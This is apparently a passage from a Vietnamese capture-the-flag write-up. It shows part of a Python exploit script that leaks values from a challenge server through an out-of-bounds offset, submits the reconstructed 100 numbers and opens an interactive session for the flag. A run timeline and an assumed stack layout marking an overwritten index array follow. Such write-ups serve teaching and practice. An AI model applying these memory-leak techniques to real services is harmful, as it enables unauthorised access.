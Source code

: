 ```python
    initial_offset = 0xb8
    gathered_data = []
    for _ in range(6):
        gathered_data += extract_data(conn, initial_offset)
        initial_offset += 14 * 4

    unique_values = list(dict.fromkeys(gathered_data))
    missing_values = sorted(set(range(1, 101)) - set(unique_values))

    if len(missing_values) != 2 or len(set(unique_values)) < 98:
        conn.close()
        continue

    conn.sendline(b'!')
    # Send first 98 elements
    for val in unique_values[:98]:
        conn.sendline(str(val).encode())
    # Add the two missing values
    for val in missing_values:
        conn.sendline(str(val).encode())

    feedback = conn.recv(timeout=1)
    if feedback and b"Wrong answer" in feedback:
        conn.close()
        continue

    # Success
    conn.interactive()
    break

```

---

#### Timeline bài khai thác (1 run thành công)

| Thời điểm | Hành động | Kết quả |
|----------|-----------|---------|
| T+0s | Connect, nhận `100` | Ready |
| T+1s..T+6s | 6 lần leak | Thu ~98 giá trị |
| T+7s | Tính `missing` | 2 số còn thiếu |
| T+8s | Gửi `!` + 100 số | Server verify |
| T+9s | In flag | Hoàn tất |

---

#### Memory Layout (giả định)

```
[ saved RBP ]
[ return addr ]
[ buf (100 bytes) ]
[ padding / alignment (28 bytes) ]
[ idx[14] (14 * 4 = 56 bytes) ]   <-- bị overwrite bằng p32(...)
```
